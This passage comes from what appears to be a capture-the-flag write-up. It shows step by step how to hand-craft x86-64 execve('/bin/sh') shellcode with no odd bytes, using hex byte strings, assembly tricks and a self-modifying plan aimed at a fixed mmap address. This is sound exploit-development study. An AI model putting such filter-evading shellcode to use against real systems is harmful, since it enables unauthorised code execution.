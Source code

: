 This compiles into 
```
\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50
```
Which has no odd bytes! We've finally covered `/bin/sh`

A lot of getting this to work was using `gdb` with `gef` enabled. It's easier to view the stack and see what instructions are getting run and what they do.

## Back at cruising speed <a name="Cruising"></a>

There's a few more changes we can make to that original shellcode with relative ease.

That `imul esi` compiles to `[\xF7]\xEE`. This is just a really elegant way to set a couple registers to 0. Luckily, we can reuse that same `xor` trick on the registers it affects (`rax` and `rdx`):
```asm
push 0x30
pop rax
xorb al, 0x30
push 0x30
pop rdx
xorb dl, 0x30
```
This compiles to `\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30`
Are there better ways to do this? Probably but I can't be bothered. If it works, it works.

Finally, `mov al, 0x3b` compiles to `\xB0[\x3B]`. This loads the ID for the `execve()` syscall into the first byte of `rax`. We can pretty simply use `0x3a` instead and increment it:
```asm
mov al, 0x3a
inc al
```
This compiles to `\xB0\x3A\xFE\xC0`.

***What's left?***
We have that `pop rdi` thats responsible for `[\x53]`, and the `syscall` that compiles `[\x0F\x05]`. Sadly, my testing pretty much showed that any use of `rdi` or its smaller registers will result in an odd byte, and there wasn't really an easy way for me to use this register. On top of that, `syscall` is mandatory, so there's no way around that one. 

So we're back on the self modifying train. But memory is still memory. All we need is the address of where the shellcode is, and then we should know how long it is by the time we finish designing it, so it should be that hard to modify bytes. Good thing for us, it was stored using `mmap()` at address — *What?* Because my work is never over, its stored at address `0x133713370000`. Which means we need to write 4 more odd bytes into our shell code.

## There's no such thing as free lunch <a name="Lunch"></a>

So we need to write the address `0x133713370000` into a register and then access the memory inside of it. We'll do the same trick as we did for /bin/sh, and surely enough, it's not at all clean or elegant. Which again, is *fine*, we just need it to **work**:
```asm
mov ax, 0x0000
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
```